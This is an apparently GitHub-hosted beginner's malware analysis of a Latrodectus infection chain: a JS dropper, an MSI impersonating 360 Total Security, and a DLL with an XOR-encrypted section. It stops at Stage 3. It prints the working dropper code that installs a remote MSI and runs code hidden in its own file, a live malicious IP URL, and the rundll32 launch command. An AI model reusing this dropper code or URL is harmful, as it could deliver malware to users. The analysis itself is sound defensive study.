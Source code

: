 ### ArachnoAnalysis: Spinning Webs with Latrodectus - A Novice's Dive into Malware Mysteries

![](assets/header.png)

## Table of contents
- [Intruduction](#intruduction)
- [Stage 0 - The JS](#stage-0---the-js)
- [Stage 1 - The MSI package](#stage-1---the-msi-package)
- [Stage 2 - The DLL](#stage-2---the-dll)
    - [Unpacking the "yhDm^" section](#unpacking-the-yhdm-section)
- [Stage 3 - Another DLL](#stage-3---another-dll)


## Intruduction


## Stage 0 - The JS

Stage 0 is appearing as an obfuscated JS file `<filename>.js` which contains the code that attempts to download an MSI package from a specified URL `http://45.95.11.217/ad.msi`. After downloading the MSI package, the JS file is using the `ActiveXObject` to iternact with Windows Installer and installs the product using the `InstallProduct()` method. 

The variable `a` employs an Immediately Invoked Function Expression (IIFE), encapsulating a function designed to locate and execute a script embedded within the current script file `WScript.ScriptFullName`. It utilizes the `Scripting.FileSystemObject` to navigate the file system, particularly for reading the lines of the script file. Within this context, the `e()` function iterates through the script file, identifying and extracting embedded script content, storing it in `d`. Subsequently, the `h()` function attempts to execute the extracted script content, provided it's not empty. The resulting object includes a method `j`, intended to orchestrate the entire process of discovering and executing the embedded script.

The `a.j()` invocation initiates the execution sequence by calling the `j` method of the `a` object. This method, in turn, endeavors to execute the embedded script discovered within the current script file.

```js
function installFromURL() {
        var installer;
        var msiPath;
        try {
            installer = new ActiveXObject("WindowsInstaller.Installer");
            installer.UILevel = 2;
            msiPath = "http://<snip>/<filename>.msi";
            installer.InstallProduct(msiPath);
        } catch (e) {
            WScript.Echo("failed: " + e.message);
        }
    }
    installFromURL();
    
    var a = (function() {
        var b = new ActiveXObject("Scripting.FileSystemObject"),
            c = WScript.ScriptFullName,
            d = "";
    
        function e() {
            if (!b.FileExists(c)) return;
    
            var f = b.OpenTextFile(c, 1);
            while (!f.AtEndOfStream) {
                var g = f.ReadLine();
                if (g.slice(0, 4) === "") d += g.substr(4) + "\n";
            }
            f.Close();
        }
    
        function h() {
            if (d !== "") {
                var i = new Function(d);
                i();
            }
        }
 
        return {
            j: function() {
                try {
                    e();
                    h();
                } catch (k) {}
    
            }
    
        };
    })();
    a.j();
```

## Stage 1 - The MSI package
An MSI package itself cannot be considered malicious because many products use it for their installation processes. However, in the exciting realm of malware analysis, we have to give it a chance to show its malicious side, RIGHT??? RIGHT... Let's dive in and see what mischief awaits! 

In order to analyze the MSI package, we have to install a specific 'unpacker' and see what the package contains. I chose to use the [lessmsi](https://github.com/activescott/lessmsi) tool for this purpose.

Let's start by diving deep into the package extractions, where we can find that a suspicious DLL is being extracted from the package named `360total.dll`.
![](assets/msi/1.PNG)

Very interesting finding, BUT let's proceed with the package investigation and explore the tables.

In the property table, we can find information regarding the package creator, such as the manufacturer, description, and product name. Based on the name `360 Total`, the entire setup seems to be an impersonation attempt of the 360 Total security solution AV.

![](assets/msi/2.PNG)


A very interesting table is the `CustomAction`, where an actor can insert their own custom actions or commands into the package flow. Here, they could potentially execute the extracted `360total.dll`—which is likely malicious—.

* `C:/Windows/System32/rundll32.exe [LocalAppDataFolder]sharepoint\360total.dll, homq`

The above command is executing the DLL with the `homq` for entry point, which will be executed.


Note that `rundll32.exe` is a legitimate executable that exists on Windows. However, like other similar executables, it can be used in a malicious manner. e.g. [LOLBAS Rundll32](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)

![](assets/msi/3.PNG)

Finally, it appears that the entire packaging process was carried out using Caphyon Advanced Installer.

![](assets/msi/4.PNG)

## Stage 2 - The DLL

Let's proceed by extracting `360total.dll` and begin analyzing it. We'll open it using the `Detected It Easy` tool, which is already installed on FlareVM. \
Based on the `DIE` tool results we can clearly see that our file is a `Linker: Microsoft Linker(14.0, Visual Studio 2015 14.0*)[DLL]`.

![](assets/360total/1.PNG)

Further exploring `DIE` features, we can uncover the DLL exports, which essentially are the available entry points, or functions, that can be utilized during execution. The available entry points are:
- homq
- CreateObject
- RegisterInstallTime

The `homq` entry point seems very familiar, as we identified a rundll32.exe command executed within the MSI Installer.

![](assets/360total/2.PNG)

Alright, let's have a bit more fun and investigate the available section headers of the DLL. Among the 7 available section headers, the one that particularly intrigues me is `"yhDm^"`, which appears to be packed and likely encrypted. 

Using strings at packed section we can see that the section is probably encrypted.

![](assets/360total/3.PNG)

### Unpacking the "yhDm^" section

Now that we've discovered that the "yhDm^" section is packed and encrypted, let's open Ghidra and dive into some nasty code.

Within the `entry()` function, there's a call to `FUN_180070044`, and the code exhibits various forms of obfuscation, such as variable reassignment and string concatenation. However, there's a specific section of code where the `DAT_180175000` is decrypted using XOR functionality. Before delving into that part, it's important to note that at the beginning of the mentioned function, there are some variables with unusual hexadecimal values, indicating possible strings obfuscation.

![](assets/360total/4.PNG)

In the following image, we can observe that `DAT_180175000` corresponds to the packed section `"yhDm^"`. The code loads the encrypted data from this specific data block and decrypts it using XOR. Since the data is encrypted we have to decrypt the specific data block with the key that encrypts the data.

![](assets/360total/5.PNG)

After saving the encrypted block to a file in hexadecimal format, it's time for the CyberChef playground. Decoding the hex data reveals the absence of an MZ string at the beginning, indicating it's not a `DOS MZ executable`. However, at the end of the data, there's a strange repetitive string, `S5XlpOdyMN(U)RxRw`, which serves as the actual XOR key. This occurs because when XORing something containing NULL bytes, the XOR key is displayed instead.

![](assets/360total/6.PNG)

## Stage 3 - Another DLL